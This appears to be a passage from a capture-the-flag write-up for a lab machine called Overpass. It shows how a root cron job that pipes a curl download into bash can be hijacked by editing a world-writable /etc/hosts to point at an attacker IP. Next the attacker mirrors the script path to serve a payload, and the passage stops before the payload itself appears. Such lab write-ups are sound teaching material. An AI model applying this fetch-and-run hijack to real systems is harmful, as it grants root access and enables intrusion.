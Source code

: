 ```
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

You can notice a cron job running as root. This cron job gets a shell script at "overpass.thm/downloads/src/buildscript.sh" and execute it. If we find a way to make the target get a script 
on our machine, we can make the target execute anything we want as root ! Since the cron job makes a request to overpass.thm, we can take a look at /etc/hosts and see if we have write 
permissions on it :  
```
james@overpass-prod:~$ ls -la /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

We have write permissions on "/etc/hosts" ! We can edit the line "127.0.0.1 overpass.thm" to "[ATTACKER_IP] overpass.thm" :  
```
james@overpass-prod:~$ nano /etc/hosts
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.14.32.60 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Now, the cron job will make a request to our attacker machine, we just have to create the same path as in the cron job :  
```
attacker@AttackBox:~/Documents/THM/CTF/Overpass$ mkdir downloads
attacker@AttackBox:~/Documents/THM/CTF/Overpass$ cd downloads/
attacker@AttackBox:~/Documents/THM/CTF/Overpass/downloads$ mkdir src
attacker@AttackBox:~/Documents/THM/CTF/Overpass/downloads$ cd src
attacker@AttackBox:~/Documents/THM/CTF/Overpass/downloads/src$
```
